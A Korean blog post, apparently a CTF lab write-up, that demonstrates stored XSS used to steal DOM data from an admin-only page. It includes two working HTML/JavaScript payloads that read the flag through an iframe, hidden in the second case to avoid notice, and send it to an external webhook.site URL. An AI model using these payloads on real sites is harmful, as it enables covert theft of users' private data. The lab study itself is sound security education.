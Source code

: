 ```yaml
---
title: "Stealing DOM data via XSS (Same-Origin DOM Exfiltration)"
date: 2025-07-01
layout: single
toc: true
toc_label: "Stealing DOM data via XSS"
toc_icon: "book"
toc_sticky: true
tags: [web, xss, hacking]
header:
  teaser: /assets/images/stored-reflected-xss.png
---
```


# 개요

이 페이지는 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.

공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.

---

# 문제 풀이 정리

## Steal Info

![취약점 있는 곳](/assets/screenshots/xss-dom-steal/steal1_post.png)

게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](/assets/screenshots/xss-dom-steal/target_html.png)

누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](/assets/screenshots/xss-dom-steal/target_card-text.png)

위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/screenshots/xss-dom-steal/steal1_payload.png)

이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](/assets/screenshots/xss-dom-steal/steal1_access_admin.png)

URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](/assets/screenshots/xss-dom-steal/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

## Steal Info 2

![타겟 할 곳](/assets/screenshots/xss-dom-steal/steal2_burp_suite.png)

위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**

```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](/assets/screenshots/xss-dom-steal/steal2_payload.png)

`iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 

이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

- 사용자가 직접 게시물 클릭 시:

![게시물 클릭](/assets/screenshots/xss-dom-steal/steal2_access.png)

게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](/assets/screenshots/xss-dom-steal/steal2_access_admin.png)

관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

> **결과:**

![플래그 획득](/assets/screenshots/xss-dom-steal/steal2_flag.png)

**이렇게 관리자 권한 없이 플래그를 획득하는 데 성공했다.**